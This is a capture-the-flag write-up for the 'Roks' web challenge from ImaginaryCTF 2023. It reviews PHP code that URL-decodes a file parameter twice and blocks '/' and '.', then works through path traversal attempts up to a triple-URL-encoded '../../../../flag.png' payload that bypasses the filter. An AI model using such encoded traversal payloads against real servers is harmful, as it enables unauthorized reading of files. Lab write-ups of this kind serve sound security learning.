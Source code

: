 ```yaml
---
name: Roks (2023)
event: Imaginary 2023
category: Web
description: Writeup for Roks (Web) - Imaginary (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Roks

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

Source code is provided, so let's review it before we check [the site](http://roks.chal.imaginaryctf.org).

## Recon

The `Dockerfile` shows us where to look for the flag.

```dockerfile
COPY flag.png /
```

`index.php` has a function to GET a random image.

```js
function requestRandomImage() {
    var imageList = [
        "image1",
        "image2",
        "image3",
        "image4",
        "image5",
        "image6",
        "image7",
        "image8",
        "image9",
        "image10",
    ];

    var randomIndex = Math.floor(Math.random() * imageList.length);
    var randomImageName = imageList[randomIndex];

    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
            var blob = xhr.response;
            var imageUrl = URL.createObjectURL(blob);
            document.getElementById("randomImage").src = imageUrl;
        }
    };

    xhr.open("GET", "file.php?file=" + randomImageName, true);
    xhr.responseType = "blob";
    xhr.send();
}
```

You'll notice that it makes a request to `file.php` with a user-controllable GET parameter, possible LFI. Checking the source, we'll see that parameters including `/` or `.` will be blocked, preventing us from using directory traversal, e.g. `../../`.

```php
$filename = urldecode($_GET["file"]);
if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
} else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
}
```

## Solution

We load the site and click the `get rok picture`. Each time, it retrieves a new random rock picture. The URL doesn't change but we know from the source code, we can simply access a URL like: http://roks.chal.imaginaryctf.org/file.php?file=image1

We try LFI: http://roks.chal.imaginaryctf.org/file.php?file=../../../flag.png

As expected, we get the `stopHacking.png` which tells us to `STOP HACKING OUR COMPUTER.. YOU HACKERS`.

Let's try with URL encoding: `%2e%2e%2f%2e%2e%2f%2e%2e%2fflag.png`

No difference, but I realised we aren't allowed a single dot in the string, so tried `%2e%2e%2f%2e%2e%2f%2e%2e%2fflag%2epng` but no luck.

Tried to double-URL encode: `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66flag%25%32%65png`

Still no luck, so I tried URL encode with unicode: `%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng`

This time, we get some errors.

```txt
Warning: mime_content_type(images/%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng): Failed to open stream: No such file or directory in /var/www/html/file.php on line 9

Warning: Cannot modify header information - headers already sent by (output started at /var/www/html/file.php:9) in /var/www/html/file.php on line 10

Warning: readfile(images/%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng): Failed to open stream: No such file or directory in /var/www/html/file.php on line 11
```

Hmmm OK so reviewing the code again, notice that it first URL decodes the filename.

```php
$filename = urldecode($_GET["file"]);
```

Next, it checks if the filename contains `/` or `.` and if it doesn't, it will URL decode the filename a second time.

```php
$filePath = "images/" . urldecode($filename);
```

This made me think my approach of double URL encoding was correct, I'd just failed to directory traverse far enough since `/var/www/html/images/` requires `../../../../` to get back to the root directory: `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66flag%25%32%65png`

Still doesn't work 😬 Maybe I need to triple URL encode: `%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2536%2536%2525%2536%2563%2525%2536%2531%2525%2536%2537%2525%2532%2565%2525%2537%2530%2525%2536%2565%2525%2536%2537`

Yep, that did the trick! We get a PNG image containing the flag. I'm too lazy to type it out, so I extract the text from the image.

```bash
sudo apt-get install tesseract-ocr
```

```bash
tesseract file.png stdout
ictf{tr4nsv3rsing Ov3r_rOk5_6a3367}
```

Tesseract got 4 characters wrong 🙄 Manually corrected the flag!

Flag: `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`
